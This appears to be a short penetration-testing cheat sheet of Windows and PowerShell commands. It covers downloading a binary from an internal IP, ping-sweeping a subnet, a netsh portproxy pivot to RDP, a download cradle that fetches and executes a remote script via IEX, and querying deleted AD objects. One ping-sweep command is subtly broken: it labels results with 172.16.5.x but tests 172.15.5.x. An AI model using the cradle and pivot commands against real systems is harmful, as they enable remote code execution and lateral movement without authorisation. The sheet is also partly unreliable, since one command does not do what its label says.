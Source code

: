 ## Invoke-WebRequest - Download file
```
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## Discover devices on network (Windows)
```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

## PowerShell - Ping network segment
```
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

```
## netsh - Configure portproxy rule
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```

## netsh - View portproxy rule
```
netsh.exe interface portproxy show v4tov4
```

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```
## Get language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
